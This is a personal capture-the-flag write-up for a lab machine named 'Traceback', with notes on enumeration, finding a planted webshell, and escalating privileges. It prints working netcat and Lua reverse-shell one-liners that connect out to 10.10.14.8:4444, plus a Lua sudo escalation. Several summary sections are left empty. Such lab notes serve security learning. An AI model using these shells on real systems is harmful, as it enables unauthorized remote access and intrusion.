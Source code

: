 # <span style="color:[COLOR]">Machine #17 Traceback</span>  


## <span style="color:[COLOR]">Notes During Working on the Machine 🧐🤓   

* Wappalyzer is giving way off results  
<img src="wappalyzer.png"> 
* The fast nmap gave me only `http` and `ssh`.
* The long nmap doesn't want to ever finish.
* If I could tell what technology was used to program the backend maybe this could help with finding the proper shell.
* But still it's not clear to me how to find the shell and what the hell is it's name and what is this weird comment about web shells.
* Also, something interesting is that the comment said "web shells" as a plural and not singular.
* It occured to me that Traceback is a kind of error. It seems like it's an error in Python.
* One of the allowed methods is POST this has to give me access to something.
* I also found a code that uses POST requests to use a webshell.
* I found this json object that seems to be sent with the request.
 
  ```json
  {
    "canary":"m069z1wh",
    "enabled":false,
    "postmessage":false,
    "spoofOrigin":false,
    "injectCanary":false,
    "filterStack":false,
    "fireEvents":false,
    "guessStrings":false,
    "preventRedirection":false,
    "injectIntoSources":false,
    "disabledSources":[]
    }
  ```  

* From my research the Canary thing might be a honey pot, which leads me to think that the website isn't really compromised and that the website's owners have put this message to lure hackers into thinking that the website is owned.  

* The Canary thing turned out to be something from burpsuite shit when I opened firefox there was no trace of it. I've been chasing ghosts all along.  
* Maybe I can look more into uploading files.

* The latest stuff I found is an image. I thought maybe the web shell could be hidden in the image but the image seems to be intact and there's nothing wrong with it. It seems like it's just a normal jpg.
* I even ran it on `exiftool` and didn't get anything.  
* I found something `/smevk.php`. Instead of bruteforcing with `gobuster1 using the usual wordlists I used a list called "backdoor_list.txt" which is specifically to search for backdoors in web apps and I found one DAMN RIGHT!
* The password is freaking admin:admin :o

```cmd
rm /tmp/a;mkfifo /tmp/a;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/a
```

```lua
lua5.1 -e 'local host, port = "10.10.14.8", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

```lua
require('socket');require('os');t=socket.tcp();t:connect('10.10.14.8','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');
```
* I got webadmin through the other hacker's webshell and then I got sysadmin through a bind shell using the sudo lua code I used the following code  

```lua
#\!/usr/local/bin/lua
os.execute("/bin/bash");
```

```
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
```


<br/><br/>



## <span style="color:[COLOR]">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  

* General info on Webshells  
  <blockquote>
  Threat actors first penetrate a system or network and then install a web shell. From this point onwards, they use it as a permanent backdoor into the targeted web applications and any connected systems.
  </blockquote>

<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->